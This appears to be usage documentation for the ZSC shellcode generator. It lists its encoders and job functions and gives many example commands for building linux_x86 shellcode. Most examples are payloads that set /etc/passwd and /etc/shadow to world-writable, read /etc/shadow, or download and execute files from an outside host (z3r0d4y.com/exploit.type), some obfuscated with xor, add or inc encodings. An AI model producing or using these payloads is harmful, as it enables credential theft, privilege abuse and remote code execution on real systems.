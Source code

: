 ```
[+] sub_random
[+] sub_yourvalue
[+] inc
[+] inc_timesyouwant
[+] dec
[+] dec_timesyouwant
[+] mix_all
```
Functions "<strong>-joblist</strong>"
```
[+] exec('/path/file')
[+] chmod('/path/file','permission number')
[+] write('/path/file','text to write')
[+] file_create('/path/file','text to write')
[+] dir_create('/path/folder')
[+] download('url','filename')
[+] download_execute('url','filename','command to execute')
[+] system('command to execute')
[+] script_executor('name of script','path and name of your script in your pc','execute command')
```
Now you are able to choose your operation system, function, and encode to generate your shellcode, But all of these features are not activated yet, so you have to <strong>look up</strong> this table <a href="http://zsc.z3r0d4y.com/table.html">HERE</a> to see what features are activated.
<center>{% img http://zsc.z3r0d4y.com/images/Snapshot_2015-07-27_123106.png %}</center>
<br>For example, this part of table telling us all functions for linux_x86 is activated, But <strong>Encodes</strong> [xor_random, xor_yourvalue, add_random, add_yourvalue, sub_random, sub_yourvalue, inc, inc_timesyouwant, dec, dec_timesyouwant] are just activated for <strong>chmod()</strong> function.<br>
<h4>Examples:</h4>
```
>zsc -os linux_x86 -encode inc -job "chmod('/etc/passwd','777')" -o file
>zsc -os linux_x86 -encode dec -job "chmod('/etc/passwd','777')" -o file
>zsc -os linux_x86 -encode inc_10 -job "chmod('/etc/passwd','777')" -o file
>zsc -os linux_x86 -encode dec_30 -job "chmod('/etc/passwd','777')" -o file
>zsc -os linux_x86 -encode xor_random -job "chmod('/etc/shadow','777')" -o file.txt
>zsc -os linux_x86 -encode xor_random -job "chmod('/etc/passwd','444')" -o file.txt
>zsc -os linux_x86 -encode xor_0x41414141 -job "chmod('/etc/shadow','777')" -o file.txt
>zsc -os linux_x86 -encode xor_0x45872f4d -job "chmod('/etc/passwd','444')" -o file.txt
>zsc -os linux_x86 -encode add_random -job "chmod('/etc/passwd','444')" -o file.txt
>zsc -os linux_x86 -encode add_0x41414141 -job "chmod('/etc/passwd','777')" -o file.txt
>zsc -os linux_x86 -encode sub_random -job "chmod('/etc/passwd','777')" -o file.txt
>zsc -os linux_x86 -encode sub_0x41414141 -job "chmod('/etc/passwd','444')" -o file.txt
>zsc -os linux_x86 -encode none -job "file_create('/root/Desktop/hello.txt','hello')" -o file.txt
>zsc -os linux_x86 -encode none -job "file_create('/root/Desktop/hello2.txt','hello[space]world[space]!')" -o file.txt
>zsc -os linux_x86 -encode none -job "dir_create('/root/Desktop/mydirectory')" -o file.txt
>zsc -os linux_x86 -encode none -job "download('http://www.z3r0d4y.com/exploit.type','myfile.type')" -o file.txt
>zsc -os linux_x86 -encode none -job "download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','./myfile.type')" -o file.txt
#multi command
>zsc -os linux_x86 -encode none -job "download_execute('http://www.z3r0d4y.com/exploit.type','myfile.type','chmod[space]777[space]myfile.type;sh[space]myfile.type')" -o file.txt
>zsc -os linux_x86 -encode none -job "script_executor('script.type','D:\\myfile.type','./script.type')" -o file.txt
>zsc -os linux_x86 -encode none -job "script_executor('z3r0d4y.sh','/root/z3r0d4y.sh','sh[space]z3r0d4y.sh')" -o file.txt
>zsc -os linux_x86 -encode none -job "script_executor('ali.py','/root/Desktop/0day.py','chmod[space]+x[space]ali.py;[space]python[space]ali.py')" -o file.txt
>zsc -os linux_x86 -encode none -job "system('ls')" -o file.txt
>zsc -os linux_x86 -encode none -job "system('ls[space]-la')" -o file.txt
>zsc -os linux_x86 -encode none -job "system('ls[space]-la[space]/etc/shadow;chmod[space]777[space]/etc/shadow;ls[space]-la[space]/etc/shadow;cat[space]/etc/shadow;wget[space]file[space];chmod[space]777[space]file;./file')" -o file.txt
```